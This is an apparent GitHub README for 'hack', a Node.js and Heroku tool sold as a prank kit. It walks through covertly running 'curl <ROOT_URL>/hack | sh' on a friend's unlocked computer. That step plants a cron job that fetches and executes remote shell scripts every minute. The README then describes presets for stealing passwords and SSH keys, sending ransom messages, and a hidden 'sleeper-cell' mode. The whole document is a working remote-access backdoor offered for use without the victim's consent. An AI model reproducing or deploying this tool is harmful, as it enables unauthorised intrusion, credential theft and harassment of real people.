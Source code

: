 # Hack

This project helps your hack your friends. All you need to do is wait for them to leave their computer unlocked, open up Terminal, and run a single curl command. I'll walk you through how to set it up for yourself.

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku webside and put it in your package.json. This way the server knows what to inject into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## API

The beauty of this program is that to start hacking someone, its just a one-liner!

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the /env/live endpoint every minute and pipes the result to `sh`. Pretty sweet right! And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it.

So once you've hacked your friend, you can do everything else with the commandline tool from your computer.

We have a concept of different hacked environments. When you hack someone using the `/hack` endpoint, that person starts off in the live environment, and there are a variety of commands you can run on each environment.

The following will rewrite the live environment shell script to execute the following command which will say aloud "I'm watching you". Classic prank, right?!

```sh
hack live exec "say 'I\'m watching you'"
```

Well its not going to work yet, you still have to redeploy to your heroku instance.

```sh
hack deploy
```

And then you can wait for the next minute and watch your buddy's computer ping your server.

```sh
hack logs
```

The whole point of environments is so you can hack multiple people at the same time. That's why you can rename the environment.

```sh
hack live rename jon
```

Next time the live env is pinged, it will rewrite the cron job to start pinging the jon environment instead. You can do everything the same just by changing the environment argument.

```sh
hack jon exec "say 'fuck you jon'"
```

Now if you've had enough fun for the day and the party's over, you can forget jon and assure him that you've "unhacked" him.

```sh
hack jon forget
```

That will erase the cron job from his computer. But if you know Jon is going to ice you again and you really hate being iced, you might just want to just put this environment in sleeper-cell mode so you can recover it later.

```sh
hack jon interval 1d
```

Now, rather than pinging your server every minute (the default), it will ping every day at midnight. And when you find that Natty Ice in your sock drawer before class, you can change the interval back to every minute and the next day, you're good for revenge!

```sh
hack jon interval 1m
```

Some other fun things to do are setting up additional cron jobs. One of the classics is the "fuck you" every hour.

```sh
hack jon cron "0 * * * * say 'fuck you jon'"
```

If you don't remember how cron jobs work, [this is a great resource](http://www.nncron.ru/help/EN/working/cron-format.htm). Its pretty much all comes down to this little diagram.

```
* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)
```

Another good one is the 4/20 reminder.

```sh
hack jon cron "20 16 * * * * say 'its foe 20, ye better be toke-in'"
```

The computer-guy's voice is a little weird so it can help to type out some more phoenetic sounds. This one is such a classic, that I've actually made it a preset.

```sh
hack jon preset 420
```

And if you've written a ton of cronjobs and you don't know whats on there anymore, you can use the dump command.

```sh
hack jon dump "crontab -l"
```

Now whip open your logs (`hack logs`) and you'll see the stdout on the next ping. This is actually much more sinister now that you can get information back. If you really want to fuck with them, you can search for decrpyted passwords or steal their ssh keys.

```sh
hack jon preset passwords
hack jon preset ssh
```

But if you just want to give him a good old-fashioned scare, send him a ransom message!

```sh
hack jon preset ransom "Hello Jon, next time you ice me, I'll be deleting all the porn off your computer."
```

Lastly, if you find yourself adding a bunch of cronjobs and just want to start over, just give it a nice reset.

```sh
hack jon reset
```

# PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
